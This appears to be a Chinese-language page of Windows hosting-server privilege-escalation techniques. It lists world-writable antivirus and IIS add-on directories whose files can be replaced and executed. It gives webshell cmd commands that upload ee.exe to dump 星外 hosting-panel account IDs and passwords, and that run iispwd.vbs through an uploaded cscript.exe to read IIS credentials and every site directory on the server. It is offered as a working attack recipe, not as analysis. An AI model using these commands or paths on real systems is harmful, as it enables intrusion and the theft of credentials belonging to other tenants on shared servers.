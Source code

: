 ```bash
c:\Program Files\Common Files\Symantec Shared\Persist.bak
c:\Program Files\Common Files\Symantec Shared\Validate.dat
c:\Program Files\Common Files\Symantec Shared\Validate.dat
C:\Program Files\Zend\ZendOptimizer-3.3.0\docs
C:\Documents and Settings\All Users\DRM\
C:\Documents and Settings\All Users\Application Data\McAfee\DesktopProtection
C:\Documents and Settings\All Users\Application Data\360safe\softmgr\
C:\Program Files\Zend\ZendOptimizer-3.3.0\lib\Optimizer-3.3.0\php-5.2.x\ZendOptimizer.dll
C:\Documents and Settings\All Users\Application Data\Microsoft\Media Index\
```

## ee提权法

找个可读可写目录上传ee.exe

```bash
cmd命令：/c c:\windows\temp\cookies\ee.exe -i  （获取星外帐号的id值，例如回显：FreeHost ID：724）
```

接着命令：

```bash
/c c:\windows\temp\cookies\ee.exe -u 724  （获取星外的帐号密码）
```

## vbs提权法

找个可读可写目录上传cscript.exe iispwd.vbs

```bash
cmd命令：/c “c:\windows\temp\cookies\cscript.exe” c:\windows\temp\cookies\iispwd.vbs
```

意思是读取iis，这样一来，不但可以获取星外的帐号密码，还可以看到同服务器上的所有站点的目录。
可行思路大全：

经测试以下目录中的文件权限均为everyone，可以修改，可以上传同文件名替换，删除，最重要的是还可以执行：

360杀毒db文件替换:

```bash
c:\Program Files\360\360SD\deepscan\Section\mutex.db
c:\Program Files\360\360Safe\deepscan\Section\mutex.db
C:\Program Files\360\360Safe\AntiSection\mutex.db
```

IISrewrite3 文件替换：

```bash
C:\Program Files\Helicon\ISAPI_Rewrite3\Rewrite.log
C:\Program Files\Helicon\ISAPI_Rewrite3\httpd.conf
C:\Program Files\Helicon\ISAPI_Rewrite3\error.log
```

诺顿杀毒文件替换:

```bash
c:\Program Files\Common Files\Symantec Shared\Persist.bak
c:\Program Files\Common Files\Symantec Shared\Validate.dat
c:\Program Files\Common Files\Symantec Shared\Persist.Dat
```
